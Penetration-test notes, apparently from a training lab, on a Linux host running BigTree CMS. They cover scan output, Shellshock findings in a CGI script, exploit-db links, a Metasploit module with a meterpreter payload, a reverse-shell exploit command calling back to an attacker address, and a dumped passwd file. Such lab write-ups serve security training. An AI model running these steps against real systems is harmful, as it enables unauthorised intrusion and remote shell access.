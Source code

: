 # ip
10.11.1.71

# nmap scan
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kerne

## OS 
Operating System is Ubuntu Linux 14.04 (kernel: 3.13.0-141-generic)
CPU: AMD EPYC 7371 16-Core Processor

## SSH 
SSH server version: SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2 ( service.version=6.6.1p1 openssh.comment=Ubuntu-2ubuntu2 service.vendor=OpenBSD service.family=OpenSSH service.product=OpenSSH service.cpe23=cpe:/a:openbsd:openssh:6.6.1p1 os.vendor=Ubuntu os.family=Linux os.product=Linux os.version=14.04 os.cpe23=cpe:/o:canonical:ubuntu_linux:14.04 service.protocol=ssh fingerprint_db=ssh.banner )

## Server
Server: Apache/2.4.7 (Ubuntu)
5ff4869a472df9a9cc35aefde724fd88

## Programming language
X-Powered-By: PHP/5.5.9-1ubuntu4.4

## CMS 
* BigTree CMS => Version: ### 4.0.6 Release
* Github: https://github.com/bigtreecms/BigTree-CMS
* CSS: Gridlock - A CSS responsive grid system [12 column standard], @author Ben Plum, @version 0.1.9
* jQuery v1.7.1 jquery.com
* Tiny MCE

## Database 
MySql

## Pages

Summary:
* file list: http://10.11.1.71/cgi-bin/test.cgi
* /cgi-bin/admin.cgi 
* http://10.11.1.71/phpmyadmin/
* http://10.11.1.71/custom/
* /cgi-bin/ (Status: 403) => path traversal?
* /phpmyadmin (Status: 301)

/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/cache (Status: 301)
/cgi-bin/ (Status: 403)
/core (Status: 301)
/custom (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
/site (Status: 301)
/templates (Status: 301)
+ OSVDB-3092: /cgi-bin/admin.cgi: This might be interesting.                                                                                                                                              
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...    

# findings
Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.                                                                                                        
+ OSVDB-112004: /cgi-bin/admin.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).                                                                   
+ OSVDB-112004: /cgi-bin/admin.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278)  
* https://www.exploit-db.com/exploits/34879                                                                                                                                    

* Priviledge escalsation

https://www.exploit-db.com/exploits/37292


# Evidence
* Use module: multi/http/apache_mod_cgi_bash_env_exec
* with payload ``set payload linux/x86/meterpreter/bind_tcp``
* session created
* Works better with ``sudo python Documents/34900.py payload=reverse rhost=10.11.1.71 lhost=192.168.119.174 lport=4443``


# priviledge escalation
## passwd file
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
gibson:x:1000:1000:gibson,,,:/home/gibson:/bin/bash
ossec:x:1001:1001::/var/ossec-hids2.8:/bin/false
ossecm:x:1002:1001::/var/ossec-hids2.8:/bin/false
ossecr:x:1003:1001::/var/ossec-hids2.8:/bin/false

## usr
www-data @ alpha (uid=33, gid=33, euid=33, egid=33)

## supported shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen

